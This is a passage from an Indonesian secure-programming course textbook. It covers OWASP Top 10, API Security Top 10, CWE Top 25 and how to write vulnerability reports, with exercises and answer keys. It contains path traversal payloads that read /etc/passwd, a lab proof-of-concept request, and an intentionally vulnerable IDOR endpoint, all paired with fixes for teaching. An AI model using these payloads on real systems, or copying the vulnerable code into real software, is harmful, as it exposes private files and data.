Sementara OWASP Top 10 berfokus pada aplikasi web tradisional, kebangkitan arsitektur API-first mendorong kebutuhan akan OWASP API Security Top 10 yang lebih spesifik menangani risiko unik API.

---

## 4. Landasan Teori

### 4.1 OWASP Top 10 2021 — Detail Setiap Kategori

#### A01:2021 — Broken Access Control

*Posisi terdepan:* 94% aplikasi yang diuji memiliki beberapa bentuk Broken Access Control.

**Definisi:** Kontrol akses memastikan pengguna hanya dapat melakukan tindakan sesuai hak mereka. "Broken" berarti kontrol ini tidak diterapkan dengan benar — pengguna dapat mengakses sumber daya atau fungsi yang seharusnya tidak bisa mereka akses.

**Contoh Kerentanan:**
- *IDOR (Insecure Direct Object Reference)*: URL `https://app.com/invoice/12345` menampilkan faktur — seorang pengguna dapat mengubah angka menjadi `12344` dan melihat faktur pengguna lain.
- *Privilege Escalation*: Pengguna biasa dapat mengakses endpoint admin (`/admin/users/delete`) dengan memodifikasi request.
- *Path Traversal*: `https://app.com/files?name=../../etc/passwd` mengakses file sistem di luar direktori yang dimaksud.

**Mitigasi Kunci:**
- Terapkan access control di sisi server, bukan di client
- Default deny: semua yang tidak diizinkan eksplisit harus ditolak
- Implementasikan RBAC/ABAC secara konsisten
- Log kegagalan access control dan alert untuk pola yang mencurigakan

#### A02:2021 — Cryptographic Failures

**Definisi:** Kegagalan dalam melindungi data sensitif melalui enkripsi yang tepat — baik karena tidak ada enkripsi, menggunakan algoritma yang lemah, atau implementasi kriptografi yang salah.

**Contoh Kerentanan:**
- Password disimpan sebagai MD5 atau SHA-1 tanpa salt (crackable)
- Data PAN (Primary Account Number) kartu kredit ditransmisikan tanpa TLS
- TLS dengan cipher suite lemah (RC4, 3DES)
- Kunci enkripsi hardcoded dalam source code

**Mitigasi Kunci:**
- Klasifikasikan data berdasarkan sensitivitas
- Enkripsi semua data sensitif at-rest dan in-transit
- Gunakan algoritma modern: AES-256-GCM, TLS 1.3, Argon2 untuk password

#### A03:2021 — Injection

**Definisi:** Kode berbahaya yang disuntikkan ke dalam interpreter (database, OS, LDAP) karena input tidak divalidasi dan tidak diencode dengan benar.

**Contoh:** SQL Injection, NoSQL Injection, OS Command Injection, LDAP Injection, XML Injection.

Dibahas mendalam di Bab 5.

#### A04:2021 — Insecure Design (BARU di 2021)

**Definisi:** Kelemahan yang berasal dari keputusan desain yang buruk atau tidak mempertimbangkan keamanan — berbeda dari implementasi yang buruk. Tidak ada implementasi yang sempurna yang dapat memperbaiki desain yang fundamental tidak aman.

**Contoh:**
- Fitur "forgot password" yang menggunakan pertanyaan keamanan (mudah ditebak/di-OSINT)
- Arsitektur yang tidak ada pemisahan antara data tenant A dan tenant B dalam SaaS multi-tenant
- Proses bisnis yang memungkinkan pembelian tiket konser dalam jumlah unlimited, memungkinkan scalping

**Mitigasi:** Threat modeling, secure design patterns, security requirements dari awal desain.

#### A05:2021 — Security Misconfiguration

**Definisi:** Konfigurasi keamanan yang tidak tepat pada framework, server, database, cloud, atau komponen lainnya.

**Contoh:**
- Cloud storage bucket dengan izin publik
- Default credentials tidak diubah (admin/admin)
- Error messages yang menampilkan stack trace ke pengguna
- Fitur yang tidak diperlukan diaktifkan (debug mode di produksi)
- HTTP security headers tidak dikonfigurasi (X-Frame-Options, CSP, HSTS)

#### A06:2021 — Vulnerable and Outdated Components

**Definisi:** Menggunakan library, framework, atau komponen yang memiliki kerentanan yang diketahui atau sudah tidak didukung.

**Contoh Nyata:** Log4Shell (CVE-2021-44228) mengeksploitasi kerentanan di library logging Java Log4j yang digunakan oleh ribuan aplikasi.

**Mitigasi:** SCA tools (Dependency-Check, Snyk), SBOM, vulnerability monitoring.

#### A07:2021 — Identification and Authentication Failures

**Definisi:** Kelemahan dalam mekanisme autentikasi dan manajemen sesi yang memungkinkan penyerang mengasumsikan identitas pengguna lain.

**Contoh:**
- Tidak ada rate limiting pada login (memungkinkan brute force)
- Password lemah diizinkan
- Session ID terekspos di URL
- Session tidak diinvalidasi saat logout

#### A08:2021 — Software and Data Integrity Failures

**Definisi:** Kode dan infrastruktur yang tidak melindungi terhadap pelanggaran integritas — termasuk pipeline CI/CD yang tidak aman dan deserialisasi tidak aman.

**Contoh:** SolarWinds attack mengeksploitasi build pipeline yang tidak aman; update plugin WordPress tanpa verifikasi signature.

#### A09:2021 — Security Logging and Monitoring Failures

**Definisi:** Logging yang tidak memadai untuk mendeteksi, merespons, atau memulihkan dari insiden keamanan.

**Contoh:**
- Login gagal tidak di-log
- Warning dan error tidak dimonitor
- Log tidak terlindungi dari modifikasi atau penghapusan

#### A10:2021 — Server-Side Request Forgery (SSRF)

**Definisi:** Kerentanan yang memungkinkan penyerang memaksa server untuk membuat request ke lokasi yang tidak dimaksud — sering digunakan untuk menjangkau sumber daya internal yang tidak dapat diakses langsung.

Dibahas mendalam di Bab 6.

### 4.2 OWASP API Security Top 10 2023

API memiliki karakteristik risiko yang berbeda dari aplikasi web tradisional. API sering mengekspos lebih banyak data dan fungsi bisnis secara langsung.

| Kode | Nama | Ringkasan |
|---|---|---|
| **API1** | Broken Object Level Authorization | Endpoint API tidak memvalidasi apakah pengguna memiliki izin untuk mengakses objek spesifik yang diminta |
| **API2** | Broken Authentication | Mekanisme autentikasi API yang lemah: token yang tidak expire, API key yang tidak dirotasi |
| **API3** | Broken Object Property Level Authorization | API mengembalikan semua properti objek (termasuk yang sensitif) alih-alih hanya yang diotorisasi untuk pengguna tersebut |
| **API4** | Unrestricted Resource Consumption | Tidak ada rate limiting, payload size limit, atau query depth limit — rentan terhadap DoS dan biaya cloud yang membengkak |
| **API5** | Broken Function Level Authorization | Pengguna biasa dapat mengakses fungsi admin via API endpoint yang kurang terlindungi |
| **API6** | Unrestricted Access to Sensitive Business Flows | API mengekspos proses bisnis yang dapat disalahgunakan (pembelian masif, pendaftaran masif, dsb.) |
| **API7** | Server-Side Request Forgery | SSRF via parameter URL yang diproses server |
| **API8** | Security Misconfiguration | Konfigurasi API yang tidak aman: CORS terlalu permisif, debug mode aktif, header keamanan hilang |
| **API9** | Improper Inventory Management | API versi lama tidak didokumentasikan dan tidak dilindungi; shadow API; deprecated endpoints masih aktif |
| **API10** | Unsafe Consumption of APIs | Mempercayai data dari API pihak ketiga tanpa validasi — memungkinkan penyerang memanipulasi melalui API yang dikonsumsi |

---

## 5. Model atau Arsitektur

### 5.1 Hubungan OWASP Top 10 dengan Layer Aplikasi



---

## 6. Contoh Terapan

### Studi Kasus: IDOR pada Aplikasi Layanan Kesehatan

**Konteks:** Aplikasi portal pasien rumah sakit memiliki endpoint untuk mengunduh hasil lab:
`GET /api/results/{result_id}`

**Kerentanan (A01 — Broken Access Control / IDOR):**
Sistem tidak memvalidasi apakah `result_id` yang diminta milik pasien yang sedang login. Seorang pasien dengan `result_id=1001` dapat mengubah parameter menjadi `result_id=1002` dan mengakses hasil lab pasien lain.

**Dampak:** Kebocoran data medis — termasuk HIV status, diagnosis kanker, hasil kehamilan — yang sangat sensitif dan dilindungi oleh regulasi (UU PDP, HIPAA).

**Kode Rentan:**
```python
@app.route('/api/results/<int:result_id>')
@login_required
def get_result(result_id):
    # RENTAN: Tidak ada cek kepemilikan!
    result = db.query("SELECT * FROM results WHERE id = ?", result_id)
    return jsonify(result)
```

**Kode Aman:**
```python
@app.route('/api/results/<int:result_id>')
@login_required
def get_result(result_id):
    # AMAN: Verifikasi kepemilikan sebelum mengembalikan data
    result = db.query(
        "SELECT * FROM results WHERE id = ? AND patient_id = ?",
        result_id, current_user.patient_id
    )
    if not result:
        # Jangan bedakan "tidak ada" vs "bukan milik Anda"
        abort(404)  # Fail securely — informasi minimal
    return jsonify(result)
```

---

## 7. Praktikum — Identifikasi OWASP Top 10 di Juice Shop

**Tujuan:** Mengidentifikasi dan mendokumentasikan kerentanan OWASP Top 10 pada platform Juice Shop.

**Lingkungan:**
```bash
docker run -d -p 3000:3000 bkimminich/juice-shop
# Akses: http://localhost:3000
```

**Tugas:** Temukan dan dokumentasikan 3 kerentanan dari kategori OWASP Top 10 yang berbeda. Untuk setiap temuan:
- Nama tantangan Juice Shop
- Kategori OWASP yang relevan
- Screenshot bukti keberhasilan
- Penjelasan teknis: bagaimana kerentanan bekerja
- Rekomendasi mitigasi

**Catatan Etika:** Juice Shop berjalan di localhost Anda. Tidak ada aktivitas terhadap aplikasi atau sistem lain.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Seorang pengguna mengakses `https://shop.com/order?id=99` dan bisa melihat pesanan pengguna lain dengan mengubah id. Kategori OWASP Top 10 yang tepat adalah:
A. A03 Injection   B. A01 Broken Access Control   C. A07 Auth Failures   D. A04 Insecure Design

**Soal 2 (PG):** Perbedaan utama antara A01 (OWASP Top 10) dan API1 (API Security Top 10) adalah:
A. Tidak ada perbedaan — keduanya identik  
B. A01 untuk web tradisional, API1 lebih spesifik pada konteks objek/resource dalam API  
C. API1 lebih serius dari A01  
D. A01 hanya berlaku untuk aplikasi berbasis HTML

**Soal 3 (Esai):** Jelaskan mengapa "Insecure Design" (A04) merupakan kategori yang signifikan dan apa implikasinya terhadap proses pengembangan. Mengapa kerentanan ini tidak dapat diselesaikan hanya dengan memperbaiki kode implementasi?

**Soal 4:** Sebuah API e-commerce mengembalikan seluruh objek produk termasuk field `cost_price`, `supplier_id`, dan `internal_margin` ketika dipanggil oleh pengguna biasa. Ini merupakan contoh dari kerentanan API Security Top 10 mana, dan bagaimana cara memperbaikinya?

**Soal 5 (Analisis):** Audit keamanan menemukan bahwa aplikasi web perusahaan menggunakan jQuery versi 1.6.4 yang di-release tahun 2011 dan memiliki 14 kerentanan yang terdaftar di NVD. Kategori OWASP mana yang relevan, dan langkah apa yang harus diambil?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Klasifikasi Temuan Kerentanan untuk Bug Bounty Report

Seorang peneliti keamanan menemukan temuan berikut pada aplikasi bank:

1. **Temuan A:** Login form tidak memiliki rate limiting — berhasil melakukan 10.000 percobaan password dalam 1 jam tanpa blokir.
2. **Temuan B:** Response API `/api/v1/profile` mengembalikan field `ssn`, `income`, dan `credit_score` bahkan untuk pengguna yang profil ini tidak relevan (misalnya staff CS yang hanya perlu melihat nama dan nomor rekening).
3. **Temuan C:** Aplikasi menggunakan Spring Boot 2.6.1 yang memiliki kerentanan CVE-2022-22965 (Spring4Shell, CVSS 9.8).
4. **Temuan D:** Error pada database query menampilkan stack trace lengkap ke pengguna: `java.sql.SQLException: Table 'bankdb.users' doesn't exist`.

**Pertanyaan:**
1. **Klasifikasi (C4)**: Klasifikasikan setiap temuan ke dalam kategori OWASP Top 10 atau API Security Top 10 yang paling tepat. Berikan justifikasi teknis untuk setiap klasifikasi.

2. **Prioritasi (C5)**: Urutkan temuan dari yang paling kritis hingga paling rendah berdasarkan: (a) kemungkinan eksploitasi, (b) potensi dampak bisnis, dan (c) kemudahan remediasi. Rekomendasi mana yang harus diperbaiki dalam 24 jam, 1 minggu, dan 1 bulan?

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B (A01 Broken Access Control/IDOR):** Ini adalah contoh klasik IDOR (*Insecure Direct Object Reference*), sub-kategori dari A01. Pengguna mengakses data milik pengguna lain dengan memanipulasi parameter ID yang terekspos langsung. Ini bukan Injection (A03) karena tidak ada kode berbahaya yang disuntikkan, dan bukan Auth Failures (A07) karena pengguna sudah terautentikasi.

**Soal 2 — B:** A01 (OWASP Top 10) membahas Broken Access Control secara umum dalam konteks aplikasi web. API1 (BOLA — Broken Object Level Authorization) lebih spesifik: API sering mengekspos endpoint yang mengacu langsung ke object ID (`/api/users/{user_id}/orders`), dan tanpa validasi per-objek, BOLA terjadi. Perbedaannya bukan pada web vs API semata, tetapi pada granularitas kontrol per objek yang sangat khas pada desain API RESTful.

**Soal 4:** Ini adalah contoh **API3:2023 — Broken Object Property Level Authorization**. API mengembalikan lebih banyak properti dari yang seharusnya diotorisasi untuk pengguna tersebut. Perbaikan: implementasikan *response filtering* berdasarkan role pengguna — gunakan serializer yang berbeda untuk role berbeda, atau secara eksplisit tentukan field mana yang boleh dikembalikan per-role.

---

## 11. Ringkasan Bab

OWASP Top 10 2021 merepresentasikan konsensus industri tentang risiko keamanan aplikasi web yang paling kritis. Perubahan signifikan dari versi sebelumnya — naikknya Broken Access Control ke posisi pertama dan munculnya Insecure Design sebagai kategori baru — mencerminkan pematangan pemahaman industri bahwa keamanan harus dimulai dari desain, bukan sekadar implementasi.

OWASP API Security Top 10 2023 mengakui karakteristik unik API: BOLA, Broken Function Level Authorization, dan Unrestricted Resource Consumption adalah risiko yang lebih menonjol dalam konteks API dibandingkan aplikasi web tradisional.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** OWASP Top 10 sering dikritik karena tidak mencakup semua risiko keamanan — ini hanyalah 10 dari ratusan kategori kerentanan yang mungkin. Apakah sebaiknya tim keamanan fokus pada OWASP Top 10 saja, atau apakah ada risiko bahwa pendekatan ini menciptakan false security? Bagaimana seharusnya OWASP Top 10 diposisikan dalam program keamanan yang lebih luas?

**Pertanyaan Refleksi 2:** A04 (Insecure Design) untuk pertama kalinya mengakui bahwa kerentanan dapat berasal dari keputusan bisnis dan desain, bukan hanya dari kode. Ini memiliki implikasi bahwa tanggung jawab keamanan tidak lagi hanya pada tim teknis. Bagaimana Anda mengkomunikasikan tanggung jawab keamanan kepada product manager, business analyst, dan pemangku kepentingan non-teknis?

---

# BAB 3 — CWE TOP 25 DAN IDENTIFIKASI KERENTANAN AWAL

**Pertemuan:** 3  
**Sub-CPMK:** Sub-CPMK.1  
**CPMK:** CPMK.1  
**Evaluasi:** Eval-1

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 3, mahasiswa mampu:

- Menjelaskan apa itu CWE (Common Weakness Enumeration) dan hubungannya dengan CVE/NVD.
- Mengidentifikasi 10 CWE teratas dari CWE Top 25 dan menjelaskan karakteristiknya.
- Menggunakan CWE sebagai referensi klasifikasi kerentanan dalam laporan keamanan.
- Membuat laporan identifikasi kerentanan yang terdokumentasi dengan baik menggunakan format standar.

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Jika OWASP Top 10 adalah panduan praktis berbasis risiko untuk keamanan aplikasi web, maka CWE (Common Weakness Enumeration) adalah sistem klasifikasi akademis yang lebih fundamental — sebuah taksonomi standar dari "kelemahan" perangkat lunak dan hardware yang dapat menjadi akar penyebab dari kerentanan.

Memahami CWE penting karena: (1) SAST tools seperti SonarQube, CodeQL, dan Semgrep menghasilkan temuan yang sering dikaitkan dengan CWE ID; (2) laporan bug bounty profesional menggunakan CWE untuk klasifikasi; (3) analisis root cause kerentanan sering mengarah ke CWE spesifik; (4) berbagai kerentanan CVE dapat ditelusuri ke akar CWE yang sama.

---

## 4. Landasan Teori

### 4.1 CWE, CVE, dan NVD — Ekosistem Klasifikasi

**CWE (Common Weakness Enumeration):**
Daftar yang dikembangkan dan dikelola oleh MITRE. CWE mengklasifikasikan *jenis kelemahan* dalam perangkat lunak — bukan instance spesifik. Contoh: CWE-89 adalah "Improper Neutralization of Special Elements in SQL Query" — ini adalah jenis kelemahan, bukan kerentanan spesifik pada produk tertentu.

**CVE (Common Vulnerabilities and Exposures):**
Mengidentifikasi *instance spesifik* kerentanan dalam produk tertentu. CVE-2021-44228 adalah instance spesifik dari kerentanan di Apache Log4j 2.x. CVE mengacu ke CWE untuk mengklasifikasikan jenisnya — Log4Shell mengacu ke CWE-917 (Improper Neutralization of Special Elements used in an Expression Language Statement).

**NVD (National Vulnerability Database):**
Database publik NIST yang menggabungkan: CVE ID, deskripsi, CVSS score, referensi ke CWE, dan informasi remediasi. NVD adalah sumber otoritatif untuk informasi kerentanan.

**Hubungan:** CWE → (banyak) CVE → NVD (enrichment dengan CVSS + CWE mapping)

### 4.2 CWE Top 25 Most Dangerous Software Weaknesses (2024)

CWE Top 25 dihitung berdasarkan frekuensi dan keparahan CVE yang dikaitkan dengan setiap CWE. Berikut adalah 15 teratas yang paling relevan untuk secure programming:

| Rank | CWE ID | Nama | Relevansi |
|---|---|---|---|
| 1 | **CWE-787** | Out-of-bounds Write | Buffer overflow; crash, code execution |
| 2 | **CWE-79** | Cross-site Scripting (XSS) | Injeksi script ke browser pengguna |
| 3 | **CWE-89** | SQL Injection | Query database dimanipulasi |
| 4 | **CWE-416** | Use After Free | Pointer ke memori yang sudah dibebaskan |
| 5 | **CWE-78** | OS Command Injection | Perintah OS dieksekusi dari input |
| 6 | **CWE-20** | Improper Input Validation | Input tidak divalidasi — banyak dampak |
| 7 | **CWE-125** | Out-of-bounds Read | Membaca di luar batas buffer |
| 8 | **CWE-22** | Path Traversal | `../../etc/passwd` — akses file arbitrary |
| 9 | **CWE-352** | CSRF | Request berbahaya atas nama pengguna |
| 10 | **CWE-434** | Unrestricted File Upload | Upload file eksekusi berbahaya |
| 11 | **CWE-862** | Missing Authorization | Tidak ada cek otorisasi |
| 12 | **CWE-476** | NULL Pointer Dereference | Crash aplikasi |
| 13 | **CWE-287** | Improper Authentication | Autentikasi tidak benar |
| 14 | **CWE-190** | Integer Overflow | Arithmetic overflow → perilaku tidak terduga |
| 15 | **CWE-502** | Deserialization of Untrusted Data | RCE melalui deserialisasi |

### 4.3 Menulis Laporan Kerentanan yang Efektif

Laporan kerentanan yang efektif harus memenuhi prinsip **CVRD** (Clear, Verifiable, Risk-aware, Detailed):

**Struktur Laporan Kerentanan:**

```
JUDUL: [Nama Kerentanan yang Deskriptif]
Tanggal: [DD/MM/YYYY]
Penemu: [Nama/NIM]
Target: [Nama aplikasi, URL/endpoint]

KLASIFIKASI:
- CWE: CWE-XXX (Nama CWE)
- OWASP: AXX (Nama kategori)
- CVSS v3.1 Score: X.X (Critical/High/Medium/Low)

DESKRIPSI:
[Penjelasan teknis tentang kerentanan dan mengapa berbahaya]

BUKTI (PROOF OF CONCEPT):
[Screenshot, HTTP request/response, atau code snippet]
PENTING: PoC hanya dilakukan pada lab terkontrol/aplikasi yang diotorisasi.

LANGKAH REPRODUKSI:
1. ...
2. ...
3. ...

DAMPAK:
- CIA: [Confidentiality/Integrity/Availability yang terpengaruh]
- Dampak Bisnis: [Apa yang bisa dilakukan penyerang]

REKOMENDASI MITIGASI:
[Langkah spesifik untuk memperbaiki, beserta contoh kode aman]

REFERENSI:
- CWE-XXX: https://cwe.mitre.org/data/definitions/XXX.html
- OWASP: [link relevan]
```

---

## 5. Model atau Arsitektur

### 5.1 Taksonomi CWE: Hubungan Antar Kelemahan



---

## 6. Contoh Terapan

### Studi Kasus: Laporan Bug Bounty Profesional

**Konteks:** Peneliti menemukan Path Traversal pada endpoint download laporan di aplikasi manajemen dokumen perusahaan.

**Laporan:**
```
JUDUL: Path Traversal Memungkinkan Akses Arbitrary File pada Endpoint Download

Klasifikasi:
- CWE-22: Improper Limitation of a Pathname to a Restricted Directory
- OWASP: A01:2021 (Broken Access Control)
- CVSS v3.1: 7.5 High
  AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

Deskripsi:
Endpoint GET /api/reports/download?file={filename} tidak membatasi
path yang diperbolehkan. Penyerang yang terautentikasi dapat mengakses
file di luar direktori /reports/ menggunakan karakter traversal.

Bukti (PoC — dilakukan di lab terkontrol):
Request:
  GET /api/reports/download?file=../../../etc/passwd HTTP/1.1
  Host: app.lab.local
  Authorization: Bearer [valid_token]

Response:
  HTTP/1.1 200 OK
  Content-Type: text/plain
  
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  [... isi /etc/passwd ...]

Dampak:
- Confidentiality: High — penyerang dapat membaca file sistem
  termasuk konfigurasi, private keys, dan credential files
- Integrity: None
- Availability: None

Rekomendasi:
1. Validasi dan sanitasi input filename: tolak karakter '../', '..'
2. Gunakan realpath() untuk menyelesaikan path dan verifikasi
   bahwa path final berada dalam direktori yang diizinkan:
   
   # AMAN
   base_dir = '/app/reports/'
   requested_path = os.path.realpath(
       os.path.join(base_dir, filename)
   )
   if not requested_path.startswith(base_dir):
       return 403  # Rejected — path traversal attempt
```

---

## 7. Praktikum — Membuat Laporan Kerentanan Standar

**Tujuan:** Melatih pembuatan laporan kerentanan yang profesional dan berbasis bukti.

**Tugas:** Dari temuan di Praktikum Bab 1 dan Bab 2 (WebGoat/Juice Shop), pilih 3 temuan terbaik dan tulis laporan kerentanan lengkap menggunakan format standar yang diajarkan. Sertakan: judul, klasifikasi CWE+OWASP+CVSS, deskripsi teknis, bukti screenshot, langkah reproduksi, dampak CIA, dan rekomendasi mitigasi yang spesifik.

**Output:** Laporan PDF minimum 3 halaman per temuan.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** CWE berbeda dari CVE karena:
A. CVE lebih teknis dari CWE  
B. CWE mengklasifikasikan jenis kelemahan; CVE mengidentifikasi instance kerentanan spesifik  
C. CWE hanya untuk perangkat lunak; CVE untuk hardware  
D. CVE dikelola OWASP; CWE dikelola NIST

**Soal 2 (PG):** Sebuah fungsi C++ yang tidak memeriksa batas array sebelum menulis data mengakibatkan overwrite memori di luar buffer. Ini adalah contoh dari:
A. CWE-89   B. CWE-79   C. CWE-787   D. CWE-22

**Soal 3:** Jelaskan mengapa CWE-20 (Improper Input Validation) sering disebut sebagai "root cause" dari banyak kerentanan lain seperti SQL Injection, XSS, dan Command Injection.

**Soal 4 (Analisis):** Sebuah laporan kerentanan hanya berisi: "Aplikasi rentan terhadap SQL Injection di form login." Identifikasi minimal 5 informasi yang kurang dan jelaskan mengapa setiap informasi tersebut penting untuk laporan yang efektif.

**Soal 5:** Apa perbedaan antara "kelemahan" (weakness, CWE) dan "kerentanan" (vulnerability, CVE)? Berikan contoh konkret untuk menjelaskan perbedaan ini.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Triage Temuan SAST Berdasarkan CWE

Tim security menerima laporan SAST dari SonarQube yang berisi 47 temuan. Berikut adalah subset dari temuan tersebut:

| ID | Deskripsi | CWE | File |
|---|---|---|---|
| F-01 | String concatenation dalam SQL query | CWE-89 | UserController.java:245 |
| F-02 | Penggunaan MD5 untuk hashing password | CWE-327 | AuthService.java:89 |
| F-03 | TODO comment ditinggalkan dalam kode produksi | — | PaymentService.java:102 |
| F-04 | Buffer tidak dibersihkan setelah menyimpan plaintext password | CWE-312 | LoginHandler.c:67 |
| F-05 | Variabel tidak diinisialisasi sebelum digunakan | CWE-457 | DataProcessor.java:34 |

**Pertanyaan:**
1. **Triage (C4)**: Urutkan temuan F-01 hingga F-05 berdasarkan prioritas risiko. Berikan justifikasi teknis: mengapa temuan tersebut berisiko, apa yang dapat terjadi jika tidak diperbaiki, dan apakah ini kemungkinan true positive atau false positive.

2. **Remediasi (C4)**: Untuk F-01 (SQL Injection) dan F-02 (MD5 password), tulis kode Java yang aman untuk menggantikan implementasi yang rentan. Gunakan parameterized queries untuk F-01 dan bcrypt untuk F-02.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** CWE (dikelola MITRE) adalah taksonomi jenis kelemahan — template umum untuk kelas masalah. CVE (juga dikelola MITRE, dengan program dari CISA) adalah identifier unik untuk instance spesifik kerentanan dalam produk tertentu. NIST mengelola NVD yang memperkaya CVE dengan CVSS score dan referensi CWE.

**Soal 2 — C (CWE-787):** Out-of-Bounds Write — menulis di luar batas buffer yang dialokasikan. CWE-89 adalah SQL Injection, CWE-79 adalah XSS, CWE-22 adalah Path Traversal.

**Soal 3:** CWE-20 (Improper Input Validation) adalah kondisi yang memungkinkan terjadinya banyak kerentanan lain: (a) jika input tidak divalidasi dan langsung dimasukkan ke SQL query → SQL Injection; (b) jika tidak diencode sebelum ditampilkan ke HTML → XSS; (c) jika tidak dibersihkan sebelum dieksekusi sebagai OS command → Command Injection; (d) jika tidak dibatasi path characternya → Path Traversal. Input validation adalah "gatekeeper" pertama — jika gagal, banyak serangan lain menjadi mungkin.

---

## 11. Ringkasan Bab

CWE menyediakan bahasa standar untuk mengklasifikasikan akar penyebab kerentanan perangkat lunak. CWE Top 25 mengidentifikasi jenis kelemahan yang paling berbahaya berdasarkan data CVE aktual. Memahami CWE memungkinkan developer dan security engineer untuk berkomunikasi dengan presisi tentang jenis masalah yang dihadapi.

Pelaporan kerentanan yang efektif mengikuti struktur standar: klasifikasi (CWE/OWASP/CVSS), bukti teknis yang dapat direproduksi, analisis dampak CIA, dan rekomendasi mitigasi yang spesifik. Laporan yang baik memungkinkan tim pengembang untuk memahami, memprioritaskan, dan memperbaiki kerentanan dengan cepat.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Responsible disclosure adalah praktik di mana peneliti keamanan memberikan waktu kepada vendor untuk memperbaiki kerentanan sebelum dipublikasikan. Berapa lama waktu yang wajar untuk diberikan? Apa yang harus dilakukan jika vendor tidak merespons? Bagaimana kebijakan UU ITE Indonesia mempengaruhi praktik responsible disclosure?

**Pertanyaan Refleksi 2:** CVSS score sering digunakan sebagai dasar prioritisasi patch. Namun, CVSS mengukur keparahan teknis, bukan risiko bisnis. Sebuah kerentanan CVSS 9.8 pada sistem internal yang tidak terhubung internet mungkin kurang mendesak daripada CVSS 7.0 pada sistem pembayaran yang menghadap publik. Bagaimana Anda membangun sistem prioritisasi yang menggabungkan CVSS dengan konteks bisnis?

---


---

# BAB 4 — KERENTANAN MEMORI: BUFFER OVERFLOW, USE-AFTER-FREE, DAN FORMAT STRING

**Pertemuan:** 4  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.1, CPMK.2  
**Evaluasi:** Eval-2 (Lab exploit-remediasi, 12%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 4, mahasiswa mampu:

- Menjelaskan mekanisme teknis buffer overflow pada stack dan heap.
- Menjelaskan kerentanan Use-After-Free (UAF), Format String, dan Integer Overflow.
- Mengidentifikasi pola kode C/C++ yang rentan terhadap kerentanan memori.
- Menerapkan mitigasi: penggunaan fungsi aman, batas eksplisit, dan pemeriksaan integer.
- Menjelaskan mitigasi tingkat sistem: ASLR, NX/DEP, Stack Canary, dan SafeStack.

---

## 2. Peta Konsep Bab

